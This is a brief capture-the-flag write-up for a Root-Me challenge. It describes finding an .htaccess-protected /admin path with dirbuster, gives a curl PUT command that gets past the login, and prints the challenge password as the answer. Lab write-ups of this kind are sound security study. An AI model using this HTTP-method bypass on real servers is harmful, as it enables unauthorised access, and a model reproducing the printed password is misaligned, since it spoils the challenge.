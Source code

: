 # [It Happens Sometimes](https://www.root-me.org/en/Challenges/Realist/It-happens-sometimes-93)

We use dirbuster to try to find some hidden directories.

We have an `/admin` url that gives us a login prompt. It looks like `.htaccess` authorization. 

Let's try circumventing it with:

`curl -X PUT 'http://challenge01.root-me.org/realiste/ch3/admin'`

Great we get a password!

Password is: **0010110111101001**

